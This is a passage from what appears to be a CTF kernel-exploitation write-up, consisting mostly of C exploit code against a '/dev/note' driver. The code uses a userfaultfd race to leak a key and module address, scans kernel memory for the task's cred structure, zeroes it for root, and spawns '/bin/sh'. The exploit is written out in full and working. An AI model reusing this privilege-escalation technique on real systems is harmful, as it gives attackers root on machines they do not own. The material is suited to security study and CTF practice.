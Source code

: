 ```C
    uffdio_register.range.start = (unsigned long) FAULT_ADDR;
    uffdio_register.range.len = page_size;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if(ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) < 0)
        perror("uffdio_register");

    if(pthread_create(&tid, NULL, fault_handler_thread, (void*)uffd) < 0)
        perror("pthread");
}

char bufptr[0x100]={0};

int main() {
    fd = open("/dev/note", 0);
    if (fd < 0){
        perror("open");
    }
    
    add(bufptr, 0x10);
    register_userfault();
    edit(0, FAULT_ADDR, 0x10); //suspend
    
    show(1, bufptr);   //0->key
    unsigned long key = *(unsigned long *)bufptr;
    
    add(bufptr, 0); //2
    show(1, bufptr);    
    unsigned long content_key = *(unsigned long*)(bufptr+0x10) ^ key;
    unsigned long module_key = content_key - 0x2500 - 0x68;
    unsigned long page_offset_base = 0xffffffffc0000000 + (module_key&0xffffff) - module_key;
    printf("key: 0x%lx; module_key: 0x%lx; page_offset_base: 0x%lx\n", key, module_key, page_offset_base);

    if(prctl(PR_SET_NAME, "leafishexp") < 0)
        perror("prctl");
    unsigned long* find;
    unsigned long offset = 0;
    while(1){
        *(unsigned long *)bufptr = key ^ 0;
        *(unsigned long *)(bufptr + 0x8) = key ^ 0xff;
        *(unsigned long *)(bufptr + 0x10) = key ^ offset;
        edit(1, bufptr, 0x18);
        memset(bufptr, 0, 0x100);
        show(2, bufptr);
        find = (unsigned long *)memmem(bufptr, 0x100, "leafishexp", 10);
        if(find){
            printf("found offset: %p\n", find);
            if(find[-1]==find[-2] && find[-1]>0xffff000000000000)
                break;
        }
        offset += 0x100;
    }

    *(unsigned long *)bufptr = key ^ 0;
    *(unsigned long *)(bufptr + 0x8) = key ^ 0x28;
    *(unsigned long *)(bufptr + 0x10) = key ^ (find[-2] + 4 - page_offset_base);
    edit(1, bufptr, 0x18);

    memset(bufptr, 0, 0x28);
    edit(2, bufptr, 0x28);

    puts("get shell");
    system("/bin/sh");
```

  [1]: http://static.zybuluo.com/leafish/e86u5q8x5yciwck2de1bpi4q/image_1e6vc3qeosuh1tkeaqecqosh79.png
  [2]: http://man7.org/linux/man-pages/man2/userfaultfd.2.html
  [3]: https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt
  [4]: http://static.zybuluo.com/leafish/y4b9btjir01tm161n29xeaw7/image_1e74h0mpf1bg212tn127elp21oi79.png
  [5]: http://static.zybuluo.com/leafish/cpemi1wafhu00b1sgrgtickb/image_1e74kpa7214ihl034sbvmmju2m.png
  [6]: http://static.zybuluo.com/leafish/4jxy2lfb4vcwekjo4j6ay9c3/image_1e74l6njtui02tq1se5hu115n13.png
  [7]: http://static.zybuluo.com/leafish/mc8fxo1pdyzrc1tgm8fk8rx3/image_1e74lag3a1elaaqbjsl1uve1c4l1g.png
  [8]: http://static.zybuluo.com/leafish/v5a7njxc1x4y7vf01upmzxaf/image_1e723q42t1v6m11101iqe6ib1h99.png
  [9]: http://static.zybuluo.com/leafish/jpg13had1tbi8xazvmx38lrc/image_1e74m8uic1hogjnn1bn584d1elj1t.png
  [10]: http://static.zybuluo.com/leafish/n9e5u2jhki8fuz8jf7vkkfac/image_1e74mcknt1g6b1ovg1hh91o6013rh2a.png
  [11]: http://static.zybuluo.com/leafish/70qsg2p46qj6csuvlor1v32w/image_1e723s8sq1uquem47b01rraage13.png
  [12]: http://static.zybuluo.com/leafish/jkq0cfvbkyszp9aj615tv6gy/image_1e74o110e1ord1ri11and10b214p19.png
  [13]: http://static.zybuluo.com/leafish/q6dpxzvrp8dff8msv9alxarl/image_1e74ol42u1ulssg7t3bpqo1ni4m.png
  [14]: http://static.zybuluo.com/leafish/vm6mq7m7b1qbdq5r84aj1p41/image_1e734paevjjo17fleaa1a15th9.png
  [15]: https://hub.docker.com/r/klee/uclibc